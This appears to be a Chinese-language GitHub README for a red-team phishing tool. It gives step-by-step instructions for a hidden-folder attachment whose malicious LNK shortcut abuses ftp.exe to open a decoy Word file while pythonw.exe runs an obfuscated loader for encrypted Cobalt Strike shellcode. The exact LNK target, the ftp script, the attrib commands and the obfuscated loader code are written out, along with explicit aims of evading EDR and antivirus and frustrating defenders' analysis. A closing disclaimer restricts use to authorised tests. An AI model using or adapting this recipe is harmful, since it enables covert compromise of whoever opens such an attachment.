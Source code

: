 # 前言

最近看到一些博客文章对红队样本做了一些分析，估计很快此方法便失效了，决定放出来供红队成员学习研究

https://xz.aliyun.com/t/15308?time__1311=GqjxnD2Citq05DK54CqiKq7KYAKW948OObD

https://www.52pojie.cn/thread-1956543-1-1.html

其实这种方式在很早之前便出现了，之前更多的是调用powershell易被拦截

https://www.freebuf.com/articles/web/325322.html

但通过调用一些白程序(pythonw、javaw)仍可以绕过许多EDR杀软

# 常规程序弊端

- 如果使用捆绑程序释放文档和木马，容易被EDR杀软会标记为恶意，如某数字杀软常会产生 `qvm 报毒拦截`
- 红队木马被上传沙箱后，容易失效并且可能会导致大量的虚拟beacon上线，对攻击方造成影响

# 使用方式

特此感谢 [pant0m](https://github.com/pant0m)，本工具在其基础上进行二改

1、`cobaltstrike` 生成 `beacon_x64.bin`，或者使用其他C2的shellcode，默认匹配当前目录的第一个bin文件

![image](https://github.com/user-attachments/assets/fc97cb09-f20c-4f38-b639-968d0cdbfb10)

2、运行`generate.py`，自动加密`shellcode`并复制到当前`__init__`文件夹下

![image](https://github.com/user-attachments/assets/bf3081fb-60fc-4bf2-b37f-68463473d453)

3、设置属性隐藏文件夹 `__init__`

```
attrib -s -h -r __init__
attrib +s +h +r __init__
```

LNK属性填写

```
C:\Windows\System32\ftp.exe -""s:__init__\python.dll
```
![image](https://github.com/user-attachments/assets/3af29388-36b9-44f8-bffb-3f11b2ef488b)

python.dll 内容为

```
!start /b __init__\11.docx
!start /b __init__\pythonw.exe __init__\main.py
bye
```

# 实现效果

![e58ad4a8c625481495a7137bee2837e](https://github.com/user-attachments/assets/f9b781b9-795f-4304-ad68-67ddac4ab393)

# 代码加解密和混淆

shellcode处理可使用 https://github.com/EgeBalci/sgn

![image](https://github.com/user-attachments/assets/6dcff7a3-42f4-4194-afb5-06015a474395)

加载方式为了简便选择本地解密加载，但如果说为了更好的防溯源和被蓝队捕获shellcode可使用远程加载的方式，但需要注意存储桶的权限配置

解密loader因为需要携带在附件内，所以需要尽可能混淆，增加蓝队的逆向难度

https://pyob.oxyry.com/

![image](https://github.com/user-attachments/assets/3ad71315-9824-49b5-8196-e75afee1668c) 

# 坑点细节

因为文件调用是在上一级目录下，因此`加密shellcode路径`应设置为相对的 `__init__/data.dat`

```
def loadjson (file ='__init__/data.dat'):#line:14
    with open (file ,'r',encoding ='utf-8')as O0OOO00O0OO0O0OO0 :#line:16
        OOO0O0OO000OOO0O0 =json .load (O0OOO00O0OO0O0OO0 )
```

pythonw.exe需要添加libs依赖才能正常运行，把文件夹下面的文件全部拷贝

```java
C:\Users\Administrator\AppData\Local\Programs\Python\Python38\Lib
```

# 声明

仅限用于技术研究和获得正式授权的攻防项目，请使用者遵守《中华人民共和国网络安全法》，切勿用于任何非法活动，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布者不承担任何法律及连带责任！

使用前先按照文档步骤一步一步来，报错问题自行百度解决，类似issue不予回复，感谢理解！

